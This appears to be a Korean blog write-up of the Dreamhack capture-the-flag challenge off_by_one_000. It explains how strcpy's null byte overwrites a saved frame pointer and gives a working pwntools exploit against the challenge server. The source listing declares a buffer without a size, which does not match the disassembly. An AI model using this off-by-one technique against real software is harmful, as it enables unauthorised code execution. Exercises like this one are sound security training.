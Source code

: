 ```yaml
---
layout: post
title: Dreamhack | Off By One_000
subtitle: Dreamhack-Pwnable off_by_one_000
categories: dreamhack.io
tags: [Pwnable, dreakhack, Shell, Pentest]
---
```


**본 문제는 Dreamhack을 통해서 풀어 보실 수 있습니다.**

**해답을 이해하며 생각을 해보면서 풀이 해보시길 바랍니다.**

## 문제 내용

문제는 <a href = "https://dreamhack.io/wargame/challenges/">dreamhack.io</a>를 들어가시면 확인할 수 있습니다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208597684-da0822b7-1f2a-4ac1-8be0-68d0be46981f.png" width = 550>
</p>

**Off-by-one 취약점**은 경계 검사에서 하나의 오차가 있을 때 발생하는 취약점입니다. 이는 버퍼의 경계 계산 혹은 반복문의 횟수 계산 시 `<` 대신 `<=`을 쓰거나, 0부터 시작하는 인덱스를 고려하지 못할 때 발생합니다.

## 문제 풀이

```C
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>
#include <string.h>

char cp_name[256];

void get_shell()
{
    system("/bin/sh");
}

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int cpy()
{
    char real_name[];
    strcpy(real_name, cp_name);
    return 0;
}

int main()
{
    initialize();
    printf("Name: ");
    read(0, cp_name, sizeof(cp_name));

    cpy();

    printf("Name: %s", cp_name);

    return 0;
}

`get_shell()` 함수가 포함되어 있기에 RET를 이 함수로 덮으면 될 것으로 예상이 된다.

```C
read(0, cp_name, sizeof(cp_name));
```

```
0x08048685 <+21>:    push   0x100
0x0804868a <+26>:    push   0x804a060
0x0804868f <+31>:    push   0x0
0x08048691 <+33>:    call   0x8048430 <read@plt>
```

`cp_name`는 256byte로 해당 전역변수에 입력 값을 할당하고 있다.

`cpy`함수를 보면 아래처럼 나오게 된다.

```armasm
0x0804864c <+0>:     push   ebp
0x0804864d <+1>:     mov    ebp,esp
0x0804864f <+3>:     sub    esp,0x100
0x08048655 <+9>:     push   0x804a060 // <-- cpname
0x0804865a <+14>:    lea    eax,[ebp-0x100]
0x08048660 <+20>:    push   eax
0x08048661 <+21>:    call   0x8048470 <strcpy@plt>
0x08048666 <+26>:    add    esp,0x8
0x08048669 <+29>:    mov    eax,0x0
0x0804866e <+34>:    leave
0x0804866f <+35>:    ret
```

정해진 256byte를 입력받기에 RET까지의 Over write는 불가능할 것으로 보인다. 하지만, `read()`함수는 마지막에 **\n**를 포함시켜서 저장하고, cpy()의 `strcpy()`는 `\n`직전까지의 값을 복사하는 것이 아닌  끝나는 **NULL 문자(\x00)**를 포함하여 string2를 string1에서 지정한 위치로 복사하여 모든 값을 넣기에 256byte의 값이 아닌 257byte의 값을 버퍼에 넣게 된다.

취약해보이는 cpy의 버퍼를 보게 되면 ebp와 esp는 256byte 차이이고, 만약 1byte가 넘어가게 되면 SFP의 1byte를 overwrite하게 된다.

* **cpy** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208592228-851f59c5-82fd-4833-b738-6d1d244332eb.png" width = 420>
</p>

**RED** 박스는 `cpy`의 SFP가 되고, **YELLOW** 박스는 `cpy`의 RET가 된다.

* cpy return 이후 **main** 메모리

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/208594072-0e319389-bebb-4fd7-9dbe-244fdc5c9142.png" width = 420>
</p>

`eip`의 값을 보면 cpy 메모리에서 노란색 RET의 값이고, 이것은 cpy 메모리에서 빨간색 SFP가 가리키던 값이 된다.

**cpy SFP 메모리 주소 = cpy RET 메모리 값 = return 이후 main의 eip**

main RET, cpy RET의 값을 BOF로 변경할 수 없으므로, strcpy의 **off by one** 취약점을 이용해 cpy SFP를 변경하면 된다.

`strcpy`시 마지막 널 바이트가 포함되므로 cpy SFP는 **0xff9a0b88**가 아닌 **0xff9a0b00**이 된다.

이 값은 strcpy에 포함되는 범위이기에 get_shell를 256byte만큼 도배하면 된다.

```python
from pwn import *

p = remote('host3.dreamhack.games', 20769)
e = ELF('./off_by_one_000')

get_shell = e.symbols['get_shell']
payload = b''

for i in range(64):
    payload += p32(get_shell)
p.send(payload)
p.interactive()
```